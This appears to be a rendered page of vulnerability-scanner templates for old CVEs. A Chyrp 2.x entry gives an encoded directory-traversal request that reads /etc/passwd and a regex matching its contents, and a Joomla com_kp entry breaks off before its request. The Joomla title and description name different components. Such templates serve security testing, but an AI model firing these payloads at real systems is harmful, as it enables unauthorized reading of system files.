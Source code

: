 - status
  1. 200

---

# Chyrp 2.x - Local File Inclusion

## Description

- A directory traversal vulnerability in Chyrp 2.1 and earlier allows remote attackers to include and execute arbitrary local files via a ..%2F (encoded dot dot slash) in the action parameter to the default URI.
- severity - high
- tags - cve,cve2011,lfi,chyrp,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/?action=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd%00

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Joomla! Component com_kp - 'Controller' Local File Inclusion

## Description

- A directory traversal vulnerability in the obSuggest (com_obsuggest) component before 1.8 for Joomla! allows remote attackers to read arbitrary files via a .. (dot dot) in the controller parameter to index.php.
- severity - high
- tags - lfi,edb,cve,cve2011,joomla

## Requests
